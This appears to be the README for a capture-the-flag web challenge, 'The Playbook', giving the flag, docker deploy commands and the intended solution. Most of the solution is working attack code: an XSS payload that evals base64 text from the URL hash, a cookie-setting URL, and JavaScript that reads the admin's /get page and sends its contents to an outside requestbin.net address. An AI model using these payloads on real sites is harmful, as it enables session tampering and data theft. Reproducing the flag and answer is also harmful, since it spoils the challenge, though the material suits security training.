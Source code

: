Name  : The Playbook

Desc  : This is going to be Legend ... wait for it ...

Flag  : inctf{dary_l3g3nd4ry_23839732445567356721110}

Deploy: docker build -t playbook_intro .
        docker run playbook_intro


<!-- Payload my end

<img src=x onerror=eval(atob(location.hash.substr(1)))></img>
 -->

<!-- Admin Side : Window.Open to set cookie

http://localhost:3000/find?startsWith=d&debug=y&Set-Cookie=id=f616c83f2f0f188265c7004d81d45723%3B%20path=/get
-->

<!-- Admin Side : Window.Open to xss 

document.cookie="id=ffe51d3e7d8297237588704eeddc6ab2; expires=Thu, 01 Jan 1970 00:00:00 UTC;path=/get;";document.cookie=x;fetch('/get').then(response=>response.text()).then(data=>window.open("http://requestbin.net/r/aqigo668/flag?flag="+data))


http://localhost:3000/#document.cookie=%22id=68b329da9893e34099c7d8ad5cb9c940;%20expires=Thu,%2001%20Jan%201970%2000:00:00%20UTC;path=/get;%22;document.cookie=x;fetch('/get').then(response=%3Eresponse.text()).then(data=%3Econsole.log(data));
-->

what da flow?

send admin the link --> add your cookie to the panel --> now, load the page --> the payload gets initialised --> delete the user's cookie --> make a fetch to the admin's /get-flag --> all is good as its in the same page